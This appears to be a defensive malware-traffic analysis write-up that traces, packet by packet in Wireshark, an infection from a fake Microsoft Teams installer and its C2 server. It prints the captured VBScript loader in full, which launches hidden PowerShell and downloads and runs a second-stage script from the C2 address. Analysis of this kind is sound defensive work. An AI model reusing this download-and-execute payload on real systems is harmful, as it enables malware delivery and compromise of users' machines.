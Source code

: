 
### Preparation:
- Download the PCAP file and open it in Wireshark.
- Review the summary information from the Background section:
  - A coworker downloaded a suspicious file from a fake "Microsoft Teams App" promoted via a malicious Google ad.
  - The malware was delivered by an HTTP C2 server at 5.252.153[.]241.

## System Infection Process Analysis (Incident Report):

1. Filter traffic by "C2 ip address" source/destination:
   
   `ip.src == 5.252.153.241 || ip.dst == 5.252.153.241`
   
   ![2025-02-20 14_41_46-Window](https://github.com/user-attachments/assets/f99aa56d-cc4c-48d1-adb7-f6e65d2c8a14)

2. Packet `No. 5028` initiates communication with the C2 server, starting the `TCP 3-Way Handshake`.

   ![2025-02-20 14_43_24-Window](https://github.com/user-attachments/assets/df18d19d-3689-4954-b628-ed38282b1c93)

3. Packet `No. 5031` contains an HTTP GET request: `/api/file/get-file/264872 HTTP/1.1`

   ![2025-02-20 14_47_35-Window](https://github.com/user-attachments/assets/b3f188a8-b72a-4ae1-975f-d516636adf60)

4. Packet `No. 5033` is an `HTTP 200 OK` response to packet `No. 5031`, containing a malicious script that:
    - Ignore errors
    - Create "Wscript.Shell"
    - Run a hidden powershell-command `cmd /c start /min powershell -NoProfile -WindowStyle Hidden -Command`
    - Executes a command (iex) to download another malicious script from:
         `http://5.252.153.241:80/api/file/get-file/29842.ps1` 
   
   ![2025-02-20 14_48_40-proxmox - Proxmox Virtual Environment](https://github.com/user-attachments/assets/b8a68ae3-5d05-4e2a-95dd-192490cbae73)

```
<component>
<script language="VBScript">

On Error Resume Next
Set objShell = CreateObject("Wscript.Shell")
objShell.Run("cmd /c start /min powershell -NoProfile -WindowStyle Hidden -Command ""start-process 'https://azure.microsoft.com'; iex (new-object System.Net.WebClient).'DownloadString'('http://5.252.153.241:80/api/file/get-file/29842.ps1');#URL: https://teams.microsoft.com""")

</script>
</component>
```

5. The user executes the script, and the machine sends another `HTTP GET` request to the server, which responds with an obfuscated PowerShell script:

   ![2025-02-20 14_52_02-Window](https://github.com/user-attachments/assets/2cd5ccab-c5ab-4f23-a1ed-635c320d0465)
